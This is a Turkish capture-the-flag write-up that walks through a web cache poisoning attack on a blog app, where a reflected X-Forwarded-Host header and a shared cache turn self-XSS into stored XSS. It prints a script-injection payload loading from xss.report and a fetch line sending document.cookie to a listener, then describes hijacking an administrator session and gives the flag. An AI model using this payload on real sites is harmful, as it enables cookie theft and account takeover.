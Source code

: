# Toksik Ön Bellek

|    |  |
| ------------- |-------------|
| Zorluk        | Zor (500 Puan)|
| Aşama         | Yarı Final    |
| Soru Türü     | Web Güvenliği |
| Yazar(lar)    | [İbrahim CAN](http://github.com/cibrx) |

## Soru Metni

```
Cibrx ve stajyeri aralarında konuşurken kendi sitelerinde yazdıkları makaledeki açığın olduğunu fark ederler.
```

## Çözüm

- Siteye girdiğimizde bizi bir giriş sayfası bizi karşılamaktadır.
- Hesap oluşturup hesaba giriş yaptığımızda, sitenin bir blog sayfası olduğunu fark etmekteyiz.
- Site üzerindeki özellikler kontrol edilip bağlantılar ziyaret edildiğinde `/chat` adresinde bir sohbet sayfasına ve `/profile` adresinde de bir profil sayfasına rastlanır. Profil sayfasında kullanıcı bilgileri ve sahte bir flag olduğu görülür.
- Sohbette Cibrx ve stajyerinin, üzerine blog yazdıkları bir güvenlik açığının sitelerinde de olduğundan bahsettikleri görülür.
- Sitedeki bulunan 2 blog incelendiğinde 2. blogda web önbelleğiyle ilgili bir açıktan bahsedildiği anlaşılır.
- Siteye gönderilen isteklerin yanıtlarındaki başlıklar kontrol edildiğinde 'age', 'max-age', 'x-cache' başlıklarının varlığına rastlanır. Bu da bir önbellek sisteminin varlığına işarettir.
- Ardından blog sayfasında ara ara bozuk gelen logo fark edilir. Site kaynağı incelendiğinde fotoğrafın `//localhost:3000/img/banner_logo.png` adresinde bulunduğu görülür. Fotoğraf adresi zaman zaman değişmektedir, bu da bozulmanın sebebidir.
- Ardından yazıda bahsedilen 'X-Forwarded-Host' başlığından kaynaklanan güvenlik açığının varlığı kontrol edilir. Kullanıcıya döndürülen HTML içeriğinde(logo resminin kaynak adresinde) başlığın değeri olduğu gibi yerleştirilmiştir. Kullanıcıdan alınan değerin html içine doğrudan gömülmesi, siteyi xss saldırılarına karşı savunmasız kılar. Böylelikle kullanıcı sadece kendi oturumunda xss saldırısı yapabilmektedir.
- Yanıttaki başlıklardan önbellekle ilgili olanlar incelendiğinde, sitede 30 saniye tutulacak şekilde bir önbellekleme yapıldığı keşfedilir. Kullanıcıdan alınan 'X-Forwarded-Host' başlığını içeren HTML, önbelleklenen içeriğe dahildir. Önbellek kişi oturumuna özel tutulmadığından önbelleklenen içerik başka kullanıcılara da yanıt olarak döndürülmektedir. Bu da XSS zafiyetinin başka kullanıcılara karşı da kullanılmasına olanak tanır. Açık Self XSS'ten Stored XSS'e dönüşmüştür.
- DevTools ya da Set-Cookie başlıkları incelenerek 'cibrx-session' adlı cookie incelendiğinde HttpOnly değerinin false olduğu görülür. Bu da cookie'lere script aracılığıyla erişim sağlanmasının mümkün olduğunu gösterir.
- Kullanıcının çerezlerini çalan bir JavaScript kodu içeren bir xss payload'u hazırlanıp enjekte edilerek önbellek zehirlenir. Giriş yapan kullanıcıların cihazında bu kod çalışarak çerezlerini çalacaktır.
- Örnek bir XSS payload'u şu şekilde olabilir:
`'"><script src=https://xss.report/c/boylebirkullanıcıyok></script>`
Bu payload, mevcut bir `<img>` elementinin src kısmını `'` ve `"` işaretleri ile aşar ve yeni bir `<script>` etiketi oluşturur. Bu sayede, saldırgan kötü niyetli bir JavaScript dosyasını tarayıcıya yükler ve bu script, siteyi ziyaret eden kullanıcıların cookie bilgilerini toplar.
Bir dinleyiciye (listener) ihtiyacımız olacak. Bu durumda, xss.report sitesi bizim için işleri oldukça kolaylaştırır. Kendisine gönderilen tüm HTTP başlıklarını loglar ve daha sonra bu verileri bize sunar. Böylece siteyi ziyaret eden kullanıcıların cookie bilgilerine ulaşabiliriz. Ayrıca, `fetch('orneklistenersitesi.co/'+document.cookie)` gibi bir komut kullanarak document.cookie değerini bir dinleyiciye gönderebiliriz.
- Elde ettiğimiz cookie değerini, daha önce kendi hesabımızla giriş yaptığımız sitenin "İncele" (Inspect) sayfasını kullanarak değiştiriyoruz. Uygulama menüsünden mevcut cookie değerini yeni değerle güncelliyoruz ve sayfayı yeniliyoruz. Ardından, daha önce sahte bir flag gördüğümüz profil sayfasına gidiyoruz. Bu sayfada kullanıcı adının `Administrator` olduğunu ve hemen altında flag'in bulunduğunu görüyoruz. Bu şekilde soruyu başarıyla çözmüş oluyoruz.

## Flag

```
BayrakBende{B3n_d3_c4l1s1y0rum@9f#L8z&2$}
```

